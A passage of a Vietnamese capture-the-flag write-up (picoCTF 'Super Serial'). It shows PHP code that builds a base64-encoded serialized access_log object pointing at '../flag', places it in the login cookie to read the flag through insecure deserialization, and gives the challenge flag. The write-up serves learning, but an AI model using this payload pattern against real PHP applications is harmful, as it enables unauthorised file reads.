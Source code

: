 Vậy, chúng ta sẽ viết đoạn code dưới để tạo payload. Chúng ta đặt giá trị của attribute `$log_file` là `../flag` để khi object này được truy cập như string nó sẽ gọi tới hàm `read_log()` và đọc được file `../flag`:

```php
<?php
class access_log {
    public $log_file;

    function __construct($lf) {
        $this->log_file = $lf;
    }
}

$obj = new access_log("../flag");

echo base64_encode(serialize($obj));
// TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
```

Thêm chuỗi vừa tạo vào cookie `login` và gửi request tới `/authentication.php`, chúng ta có thể đọc được flag:

![image](images/super-serial/image-6.png)

### Flag

`picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_405f4c0e}`
